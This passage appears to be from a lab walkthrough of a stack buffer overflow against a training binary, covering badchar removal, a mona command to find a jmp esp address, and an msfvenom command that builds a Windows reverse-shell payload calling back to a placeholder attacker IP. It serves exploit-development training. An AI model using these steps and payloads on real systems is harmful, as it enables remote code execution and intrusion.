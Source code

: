 Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

![img-description](/assets/img/BOF/BOF_Unmodified.png)
_End of Bad Chars_

### Finding a Jump Point

Now run the following command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```
!mona jmp -r esp -cpb "\x00\xa0\xa1\xad\xae\xbe\xbf\xde\xdf\xef\xf0"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified.

![img-description](/assets/img/BOF/BOF_jmp.png)
_JMP ESP_

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali for making the reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\xa0\xa1\xad\xae\xbe\xbf\xde\xdf\xef\xf0" -f c
```
